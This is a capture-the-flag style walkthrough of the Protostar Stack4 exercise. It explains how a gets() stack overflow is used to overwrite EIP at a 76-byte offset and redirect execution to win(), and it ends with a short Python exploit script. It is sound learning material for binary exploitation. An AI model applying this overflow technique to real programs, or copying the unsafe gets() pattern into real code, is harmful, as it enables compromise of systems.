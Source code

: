# Stack4 Challenge

This challenge is a small variation of the previous one, only in this case we have no function pointer. Therefore, in order to call `win()` we have to alter the **Instruction pointer**.

You can find the source code here <a href="https://exploit-exercises.lains.space/protostar/stack4/">here</a>.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

**Disassembled**

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/disas_st4.png">

Let's create a random pattern so we can identify when our instruction pointer is overwritten. Visit https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html so you can quickly generate a pattern and copy it.

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/pattern.png">

Now open the program in gdb and run it giving as input the pattern generated from the above link.

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/inputpattern.png">

We can see that **eip** was overwritten with **0x63413563**.
We can find that this corresponds to ASCII **_c5Ac_**

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/pyres.png">

List in python is backwards because of **Little-Endian** format.

Revisiting the pattern page and inputting **c5Ac** we find that the offset needed to reach **EIP** is **76** bytes.

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/findoffs.png">

So let's once again find where `win()` is 

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/winloc.png">

Then simply create the below python script to redirect execution flow to `win()`

```python
#!/usr/bin/env python
from struct import pack
prepend = b"A"  * 76
prepend += pack("<L",0x80483f4)
print prepend
```

Exploit

<<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack4/images/success4.png">

### Success!
